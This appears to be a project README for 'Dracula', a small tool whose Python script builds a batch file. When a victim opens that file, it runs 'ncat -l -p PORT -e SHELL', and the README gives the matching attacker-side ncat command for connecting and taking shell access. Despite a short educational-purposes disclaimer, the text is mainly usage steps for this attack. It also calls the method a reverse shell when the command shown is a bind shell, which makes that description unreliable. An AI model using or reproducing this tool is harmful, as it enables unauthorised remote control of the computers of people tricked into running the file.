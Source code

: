 **THIS IS ONLY FOR EDUCATIONAL PURPOSES, DO NOT USE THIS**

```
        _____                       _       
        |  __ \                     | |      
        | |  | |_ __ __ _  ___ _   _| | __ _ 
        | |  | | '__/ _` |/ __| | | | |/ _` |
        | |__| | | | (_| | (__| |_| | | (_| |
        |_____/|_|  \__,_|\___|\__,_|_|\__,_|

```

This is a project i whipped up in like a single day lol

# How it Works
uses ncat command to give reverse shell access to the attacker once the client opens the batch file.

# How to Use
1. Run the dracula.py file and enter the required info
2. A batch file is generated 

### **Attacker's Side**

set up a listener using ncat and wait for the client to open the batch file.

```
ncat IP_ADDR_CLIENT PORT
```
replace the IP_ADDR_CLIENT with ip addr of client and PORT with port used in the attack

### **Client's Side**
Once the client opens the batch file, following command is executed
```
ncat -l -p PORT -e SHELL 
```
